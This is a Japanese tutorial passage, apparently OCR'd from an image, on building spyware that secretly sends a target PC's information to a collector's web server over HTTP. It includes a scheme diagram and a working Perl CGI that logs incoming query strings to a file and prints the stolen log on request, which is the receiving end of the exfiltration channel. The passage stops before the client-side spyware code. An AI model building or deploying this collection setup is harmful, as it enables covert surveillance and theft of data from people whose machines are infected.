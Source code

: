 
### 0x03 概要

　インターネットでもっとも身近なプロトコルといえばおそらくHTTPでしょう。
このプロトコルを利用してＰＣ内部の情報を外部に送信するプログラムを作成
します。どういった仕組みで行うのかを以下に示します（図１）。

                       （1.収集者が運営するＨＰにデータ保存を行うCGIを設置）
+\-\-\-\-\-\-\-\-+（4.取得）+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+
| 収集者 |<\-\-\-\-\-\-\-\-\-| HTTPサーバ（データを保存するCGI） |
+\-\-\-\-\-\-\-\-+          +\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+
   |
   |                               ↑（3.スパイウェアがCGIにアクセス）
   |（2.なんらかの方法で仕込む）
   |                +\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+
   +\-\-\-\-\-\-\-\-\-\-\-\-\-\-\->| ターゲットＰＣ（スパイウェア設置）|
                    +\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+
                                                  （図１）

　仕組みとしてはシンプルなものです。スパイウェアはターゲットＰＣのなかで
こっそりとHTTPクライアントとして動作し、情報をCGIに渡していきます。そのC
GIは例えばクエリ文字列をファイルに保存するようなものにしておいて、スパイ
ウェアはターゲットＰＣの情報をクエリ文字列にいれてHTTPクライアントとして
CGIにアクセスします。CGIはクエリ文字列をファイルに保存。ＰＣの情報はサー
バにファイルとして保存されて、収集者はＨＰからファイルをＤＬすることによ
ってターゲットＰＣの情報を閲覧することができます。

　では最初にHTTPサーバにおくべきCGIを作成します。これはクエリ文字列（ＨＰ
アドレスの'?'以降の文字列）を保存するだけの簡単なものにします。ログ閲覧の
ために、クエリに"log"という文字列を渡すとファイルに保存されているデータを
出力するようにします。

```cgi
\#!/usr/bin/perl

$LogFile \= 'log.txt';
$data    \= $ENV{'QUERY_STRING'};
print "Content\-Type: text/html\r\n\r\n";
print << "HEAD";
<html>
<head><title>spyware test</title></head>
<body>
HEAD
if( $data eq "log" ) {
    print '<pre>' . "\n";
    open( RD, $LogFile );
        @lines \= <RD>;
        close( RD );
    foreach( @lines ) {
        print $_;
    }
    print '</pre>' . "\n";
}elsif( $data ) {
    open( WR, ">>$LogFile" );
    flock( WR, 2 );
    print WR "$data\n";
    close( WR );
}
print << "EOF";
<p>Hello! And Goodbye!!</p>
</body>
```